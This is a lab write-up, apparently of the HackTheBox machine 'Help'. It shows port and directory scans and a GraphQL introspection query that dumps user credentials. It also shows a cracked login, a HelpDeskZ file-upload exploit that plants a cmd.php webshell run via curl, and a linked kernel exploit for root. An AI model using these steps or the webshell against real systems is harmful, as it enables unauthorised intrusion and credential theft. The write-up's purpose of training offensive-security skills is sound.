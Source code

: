 # Help

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.71.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 15:38 EDT
Nmap scan report for 10.129.71.39
Host is up (0.0079s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We have to add `help.htb` to the `/etc/hosts` file to access port 80.

### GraphQL&#x20;

This port had a HTTP API running:

```
$ curl http://help.htb:3000/                      
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran a `gobuster` scan to find any places that I could send queries.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb:3000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:3000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:43:46 Starting gobuster in directory enumeration mode
===============================================================
/graphql              (Status: 400) [Size: 18]
```

GraphQL was present. So we need to send `query` parameters and hopefully find some credentials or other information from this. We can use this to see all types and argument accepted:

<pre class="language-http"><code class="lang-http"><strong>?query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}
</strong></code></pre>

At the top, we see this:

<figure><img src="../../../.gitbook/assets/image (2000).png" alt=""><figcaption></figcaption></figure>

This means we can query `username` and `password` fields from `user`, which would make `{user{username,password}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2212).png" alt=""><figcaption></figcaption></figure>

The hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

### HelpDeskZ

On port 80, it just shows the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (2383).png" alt=""><figcaption></figcaption></figure>

Doing a `gobuster` scan reveals some directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://help.htb: -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb:
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 15:49:06 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
/server-status        (Status: 403) [Size: 296]
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
```

`/support` reveals a HelpDeskZ instance:

<figure><img src="../../../.gitbook/assets/image (2297).png" alt=""><figcaption></figcaption></figure>

We can login with `helpme@helpme.com:godhelpmeplz`. From the HelpDeskZ repository, there's a `readme.html` file present where we can find the version that is running.&#x20;

<figure><img src="../../../.gitbook/assets/image (2709).png" alt=""><figcaption></figcaption></figure>

This version has an exploit available:

```
$ searchsploit helpdeskz  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                    | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauth | php/webapps/41200.py
----------------------------------------------------------- ---------------------------------
```

First we need to open a ticket and then upload a `cmd.php` webshell.&#x20;

<figure><img src="../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

Then we can submit this, and even though the website says the file type is not allowed, **the file is still uploaded onto the website**. Then, we can use `40200.py` to find it.&#x20;

{% code overflow="wrap" %}
```
$ python2 40300.py http://help.htb/support/uploads/tickets/ cmd.php  2> /dev/null
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php
$ curl http://help.htb/support/uploads/tickets/39a4def6c8a341531c5668661046e30d.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```
{% endcode %}

Then, we can get a reverse shell easily and capture the user flag.

<figure><img src="../../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit

The machine is running an outdated version of Linux:

{% code overflow="wrap" %}
```
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

We can use this kernel exploit to get a root shell:

{% embed url="https://www.exploit-db.com/exploits/44298" %}

<figure><img src="../../../.gitbook/assets/image (1937).png" alt=""><figcaption></figcaption></figure>
